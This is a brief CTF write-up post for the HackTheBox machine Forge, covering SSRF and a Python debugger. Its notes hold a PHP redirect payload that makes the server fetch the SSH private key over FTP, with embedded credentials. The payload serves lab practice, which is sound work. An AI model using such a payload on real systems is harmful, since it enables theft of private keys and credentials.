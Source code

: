```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/4WCOyL72yUE/0.jpg
layout: post
media_subpath: /assets/posts/2022-01-22-ssrf-python-debugger-forge-hackthebox
tags:
- hackthebox
- linux
- ssrf
title: SSRF & Python Debugger - Forge @ HackTheBox
---
```


We are solving Forge, a medium difficulty Linux machine on HackTheBox which involves an SSRF & playing with the python debugger.

{% youtube 4WCOyL72yUE %}

## Notes

**Indirect SSRF**

```php
<?php
header("Location:  http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@forge.htb/.ssh/id_rsa");
?>
```